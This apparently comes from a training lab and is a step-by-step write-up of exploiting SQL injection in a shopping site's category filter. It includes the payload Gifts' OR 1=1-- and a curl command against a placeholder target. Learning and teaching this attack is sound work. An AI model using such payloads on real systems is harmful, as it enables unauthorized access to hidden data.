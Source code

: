 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data — Apprentice

**Status:** Solved

---

## Goal

Exploit a SQL injection vulnerability in the product category filter to display all products, including unreleased ones.

---

## Steps (simple & complete)

1. **Explore the application**
   - Browse to the shopping application
   - Click on different product categories (Gifts, Lifestyle, etc.)
   - Notice the URL changes:
```
   GET /filter?category=Gifts
```

2. **Understand the backend query**
   - The application likely runs something like:
```sql
   SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
   - It filters by category and only shows released products

3. **Test for SQL injection**
   - Try adding a single quote to break the query:
```
   /filter?category=Gifts'
```
   - If you get an error or strange behavior, it's vulnerable

4. **Craft the SQL injection payload**
   - We need to:
     - Close the category string with `'`
     - Comment out or bypass the `released = 1` check
     - Use `OR 1=1` to show all products
   - Payload:
```
   Gifts' OR 1=1--
```

5. **Execute the injection**
   - URL encode the payload and inject it:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+OR+1=1--"
```
   - Or directly in browser:
```
   /filter?category=Gifts' OR 1=1--
```

6. **How it works**
   - Original query:
```sql
   SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
   - After injection:
```sql
   SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
   - The `--` comments out everything after it
   - `OR 1=1` makes the WHERE clause always true
   - Result: all products are displayed, including unreleased ones

7. **Verify success**
   - You should see more products than before
   - Unreleased products will now be visible
   - Lab automatically solves

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- SQL injection payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+OR+1=1--"
```

---

## Why this works

The application directly inserts user input into the SQL query without any sanitization or parameterized queries. By injecting `OR 1=1--`, we make the WHERE condition always evaluate to true, revealing all data regardless of the intended filters. The double dash (`--`) is a SQL comment that ignores everything after it, effectively removing the `released = 1` restriction.

---

